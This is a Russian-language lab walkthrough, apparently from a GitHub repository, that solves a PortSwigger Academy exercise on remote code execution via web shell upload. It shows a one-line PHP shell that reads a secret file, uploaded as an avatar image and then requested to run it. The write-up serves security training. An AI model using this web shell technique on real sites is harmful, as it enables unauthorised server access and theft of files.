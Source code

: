 Залогинимся под `wiener:peter` на уязвимом ресурсе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/1.png)

Загрузим рандомную картинку в качестве своего аватара и найдем данный `POST` запрос в `Proxy` -> `HTTP history`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/4.png)

Найдем где хранится сам загруженный аватар
```
GET /files/avatars/wolf.jpg
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/5.png)

Далее сконфигурируем наш php shell. Создадим `exloit.php` со следующей внутрянкой
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/6.png)

Далее через личный кабинет загрузим в качестве аватара ранее сконфигурированный `exploit.php`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/7.png)

Исполним его улаленно послав запрос формата 
```
GET /files/avatars/exploit.php
```
В качестве ответа мы получаем секрет, который и необходимо было найти по заданию
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/8.png)
Отправляем полученный секрет - `4OxvyEkwWq0nt8k92LALkuqTO3cDFpwB` в качестве ответа на задание, и получаем сообщение об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/1.%20Remote%20code%20execution%20via%20web%20shell%20upload/pics%20for%20walktrough/9.png)
